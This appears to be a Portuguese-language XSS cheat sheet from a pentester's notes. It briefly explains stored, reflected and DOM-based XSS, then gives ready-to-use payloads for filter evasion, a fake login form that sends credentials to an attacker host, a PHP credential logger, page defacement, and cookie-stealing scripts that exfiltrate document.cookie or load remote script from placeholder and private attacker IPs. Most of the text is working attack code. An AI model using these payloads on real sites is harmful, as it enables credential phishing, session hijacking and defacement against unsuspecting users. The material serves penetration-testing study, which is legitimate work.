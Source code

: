 # XSS

Existem **três tipos principais** de vulnerabilidades XSS:

| Tipo                         | Descrição |
|-----------------------------|-----------|
| **Stored (Persistent) XSS** | O tipo mais crítico de XSS, ocorre quando a entrada do usuário é armazenada no banco de dados do back-end e, em seguida, exibida posteriormente (ex: postagens ou comentários). |
| **Reflected (Non-Persistent) XSS** | Ocorre quando a entrada do usuário é refletida imediatamente na página após ser processada pelo servidor, sem ser armazenada (ex: resultados de pesquisa ou mensagens de erro). |
| **DOM-based XSS** | Um tipo de XSS não persistente que acontece quando a entrada do usuário é manipulada diretamente pelo navegador, sem passar pelo servidor (ex: parâmetros de URL ou tags de âncora). |

### Exemplos simples de payloads:

```html
<script>alert(window.origin)</script>
<plaintext>
<script>print()</script>
<img src="" onerror=alert(window.origin)>
<html%0aonpoIntEreNtER+=+[8].find(confirm)//>
<details%09ontoGGle%09=%09[8].find(confirm)%0dx//>
/language?destination=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTUE9TRUQnKTwvc2NyaXB0Pg==
```
Ferramenta útil: [URL/HTML Decoder - Eric Meyer](https://meyerweb.com/eric/tools/dencoder/)

---

### ✳️ DOM-Based XSS - Source & Sink

Para compreender XSS baseado em DOM, é essencial entender os conceitos de:

* **Source**: Objeto JavaScript que recebe a entrada do usuário (ex: parâmetros de URL, campos de input).
* **Sink**: Função que escreve a entrada do usuário no DOM. Se não sanitizar corretamente, permite ataques XSS.

### Funções JavaScript comuns como *sink*:

* `document.write()`
* `element.innerHTML`
* `element.outerHTML`

### Funções jQuery vulneráveis:

* `add()`
* `after()`
* `append()`

---

### 🎣 XSS Phishing

Simulando um formulário de login falso via XSS (passar no parâmetro vulnerável):

```html
document.write('<h3>Please login to continue</h3><form id="urlform" action="http://172.17.173.25"><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form><script>document.getElementById("urlform").remove();</script> <!--

```
Backend para captura de credenciais no seu host (ex na sua maquina atacante, um arquivo: index.php):

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    fclose($file);
    header("Location: http://SERVER_IP/phishing/index.php");
    exit();
}
?>
```
Host local com servidor PHP:

```bash
mkdir /tmp/tmpserver
cd /tmp/tmpserver
nano index.php   # Cole o código acima
sudo php -S 0.0.0.0:80
```

---

### 🖥️ XSS Defacement
Altera o conteúdo visual da página:

```html
<script>document.body.style.background = "black"</script>
<script>document.title = "deface"</script>
<script>document.getElementsByTagName('body')[0].innerHTML = "Deface"</script>

<script>
document.getElementsByTagName('body')[0].innerHTML = `
  <center>
    <h1 style="color: black">Protect this site, fellas</h1>
    <p style="color: white">
      by <img src="https://i.imgflip.com/1gpstz.jpg" height="1000px">
    </p>
  </center>`;
</script>

#Payload 1
<script>
  document.body.innerHTML = 
    <center>
      <iframe title="Doom" width="1000" height="900" src="https://emupedia.net/emupedia-game-doom1/asmjs/"></iframe>
      <br><br><br><br>
    </center>
  ;
</script>

#Payload 2
<iframe title="Doom" width="500" height="400" src="https://emupedia.net/emupedia-game-doom1/asmjs/"></iframe>
```

---

### 🍪 XSS Session Hijacking / Blind XSS

Backend para roubo de cookies (ex: index.php):

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $cookie) {
        $cookie = urldecode($cookie);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

Host local para escuta:

```bash
mkdir /tmp/tmpserver
cd /tmp/tmpserver
nano index.php   # Cole o código acima
php -S 0.0.0.0:4444
```
Payloads de exfiltração:

```html
<script src="http://OUR_IP"></script>
'><script src="http://OUR_IP"></script>
"><script src="http://OUR_IP"></script>

javascript:eval('var a=document.createElement("script");a.src="http://OUR_IP";document.body.appendChild(a)')

<script>
function b(){eval(this.responseText)};
a = new XMLHttpRequest();
a.addEventListener("load", b);
a.open("GET", "//OUR_IP");
a.send();
</script>

<script>$.getScript("http://OUR_IP")</script>

"><script>new Image().src='http://10.10.15.190:8080/index.php?c='+document.cookie</script>
```

